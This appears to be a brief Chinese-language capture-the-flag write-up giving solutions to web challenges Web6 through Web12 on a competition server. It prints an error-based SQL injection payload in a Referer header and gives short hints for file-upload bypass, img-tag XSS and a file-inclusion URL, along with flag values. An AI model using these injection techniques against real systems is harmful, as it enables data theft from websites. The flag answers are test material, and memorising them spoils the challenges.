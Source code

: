 ## Web6

Referer: http://218.76.35.75:20121/'+(updatexml(1,concat(0x3a,(select (select flag from flag))),1))+'1

-----

## Web7

上传一个PHP文件，然后用burpsuite改下类型 就可以了



-----

## Web8

把JS编译一下，查看源码就能看到

访问一下，有个cookie，就是flag


----

## Web 9

http://218.76.35.75:20124/index.php?heetian=he=abcd

----

## Web10 
描述：alert document.domain

闭合以后，用img标签XSS

----

## Web 11

无聊的题目

http://218.76.35.75:20126/index.php?page=/flag
得到flag位置
flag: 62a72cb2f3d5e7fc0284da9f21e66c9f.php

访问一下 就得到了 guess 573

完全不能叫做文件包含。

---

## Web12

又一道爆破题
 
